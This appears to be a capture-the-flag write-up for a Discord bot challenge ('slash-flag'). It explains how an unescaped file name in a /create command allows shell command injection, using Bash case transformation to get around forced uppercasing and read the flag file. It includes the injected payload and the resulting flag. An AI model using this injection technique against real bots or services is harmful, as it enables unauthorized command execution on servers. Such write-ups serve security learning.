

# slash-flag

## The bot

the bot was included in the discord and can be publically chatted, opening DM in browser shows the channel number and user ID, use the link

`https://discord.com/oauth2/authorize?client_id=XYZ&permissions=0&scope=bot%20applications.commands`

and replace `XYZ` with the user ID to invite the bot to own hosted server.

bot's aboutme includes the source code to the bot: `https://github.com/Solopie/storage-bot`

## The Source Code

The bot registers commands `"/create", "/open", "/clear", "/list"` which pipes stdout of system commands to chat, all optional inputs

to `"/create <file_name> <text>"` and `"/open <file_name>"` is escaped with `shell-quote 1.7.3", which doesn't have any vuln at the moment,

except the `<file_name>` option in `"/create"`

## Create

All commands piped into `Create` is capitalized, so we cannot just cat the flag. enter variables and Case Transformation since Bash 5.

`var="hello world"` assigns "hello world" to var, and `${var,,}` will transform all characters in var from upper to lower and append. Hence,

`VAR="CAT /FLAG/FLAG.TXT";${VAR,,}` will be translated to `"cat /flag/flag.txt"`. 

Note the system command piped in is `await runCommand(`echo '${text}' > ${filename}`, interaction.guildId);`

we have to first escape the echo command and do our own magic, so we want to send `ASD;VAR="CAT /FLAG/FLAG.TXT;${VAR,,} > HELLO` will pipe flag into HELLO

send `"/create ASD;VAR="CAT /FLAG/FLAG.TXT;${VAR,,} > HELLO text"` to bot and "/open HELLO" gives the flag

`DUCTF{/flag_didn't_work_for_me...}`

